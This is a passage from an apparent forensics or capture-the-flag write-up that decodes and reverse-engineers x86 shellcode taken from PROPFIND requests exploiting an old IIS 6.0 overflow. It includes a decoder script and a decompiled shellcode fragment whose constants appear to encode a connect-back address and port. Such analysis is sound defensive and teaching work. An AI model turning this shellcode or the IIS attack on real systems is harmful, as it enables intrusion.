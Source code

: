 Bingo! Looks like this old version of IIS has a vulnerability that leads to code execution. What's even more great, is that the second link in the screenshot (https://www.fortinet.com/blog/threat-research/buffer-overflow-attack-targeting-microsoft-iis-6-0-returns) talks a great deal about it. In particular, it talks a great deal about the technicalities, including what the contents looks like in the PROPFIND requests, and even a nice python script that decodes it for us! Here's the script, transcribed to python 3:

```python
encoded_bytes = ...

decoded_bytes = bytearray([])
for i in range(len(encoded_bytes)//2):
    block=encoded_bytes[i*2:i*2+2]
    decoded_byte_low = block[1] & 0x0F
    decoded_byte_high = (((block[1]) >> 4) + ((block[0]) & 0x0F)) & 0x0F
    decoded_byte=decoded_byte_low + (decoded_byte_high <<4)
    decoded_bytes.append(decoded_byte)

with open("decrypted.bin", "wb") as f:
    f.write(decoded_bytes)
```

If we pick a random weird-looking PROPFIND request and feed the data through the script, we get a nice decoded binary file containing x86 shell-code. In the remaining, we are assuming the shell code and its addresses as indicated by [this dump](decrypted.bin), which has an entrypoint at address 0x151.

Let the reversing begin!
------------------------

The shell code's entry point starts off with a call to `0x000001d8`, which we refer to as `shellmain` from now on. Looking into `shellmain`, we see some weird stuff going on:

```c
void shellmain(void)
{
    /* ... */
    
    local_8 = &uStack4;
    uStack4 = 0x5f327377; // "ws2_32"
    uStack12 = 0x726774c;
    uStack16 = 0x1eb;
    (*unaff_retaddr)(); // weird call
    puStack416 = auStack412;
    uStack420 = 400;
    uStack424 = 0x6b8029;
    iStack428 = 0x1fb;
    iStack440 = (*unaff_retaddr)(); // weird call
    iStack444 = iStack440 + 1;
    iStack448 = iStack440 + 2;
    uStack452 = 0xe0df0fea;
    iStack456 = 0x20a;
    iStack436 = iStack440;
    iStack432 = iStack440;
    iStack428 = iStack440;
    uVar3 = (*unaff_retaddr)(); // weird call
    iStack456 = 5;
    uStack460 = 0x1544a8c0;
    uStack464 = 0x5c110002;
    //...
```
